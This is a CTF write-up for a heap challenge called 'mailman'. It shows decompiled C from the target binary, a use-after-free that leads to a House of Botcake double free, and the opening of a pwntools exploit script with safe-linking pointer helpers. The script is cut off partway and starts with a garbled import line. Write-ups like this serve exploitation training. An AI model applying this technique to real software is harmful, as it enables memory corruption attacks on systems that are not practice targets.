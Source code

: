 ```c
    if ( choice == 1 )
    {
      v7 = inidx();
      printf("letter size: ");
      __isoc99_scanf("%lu%*c", &size);
      v3 = (char **)malloc(size);
      (&mem)[v7] = v3;
      printf("content: ");
      fgets((char *)(&mem)[v7], size, stdin);
    }
    else
    {
      if ( choice != 2 )
        break;
      v7 = inidx();
      free((&mem)[v7]);
    }
  }
  puts("Invalid choice!");
  _exit(0);
}
```

As we can see, initially we are enabling the `open`, `read`, `write` and `exit` syscalls using seccomp. In this challenge we are storing the heap chunk pointers in the `mem` array. We can allocate upto 16 pointers in the `mem`. In this challenge we can only allocate, read and delete the heap chunks.

## Exploitation Vector

In this challenge, when we free the chunk the pointer to the chunk is not set to `NULL`. Thus this is a direct case of UAF. But here we dont have edit premative thus we need to find some other way.

`House Of Botcake` is the one of the ways in which we can exploit the challenge. In `House of botcake` we first fill the `tcache` with chunks and free a chunk in the `unsorted bin`. We then create a new chunk in order to move the freed chunk from `unsorted bin` into the `tcache`. Then we again free the chunk in the `tcache`. This will cause a `double free`. A sample of this exploit technique can be found <a href="https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c">here</a>.

```py
rom pwn import *

elf = context.binary = ELF("./vuln",checksec=False)
p = remote("mailman.chal.imaginaryctf.org", 1337)
# p = elf.process()
libc = elf.libc

# gdb.attach(p,'''
#     init-gef
#     c
# ''')
           
def defuscate(x,l=64):
    a = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (a & (0xf << i+12 )) >> i+12
        a |= (v1 ^ v2) << i
    return a

def obfuscate(x, adr):
    return x^(adr>>12)

```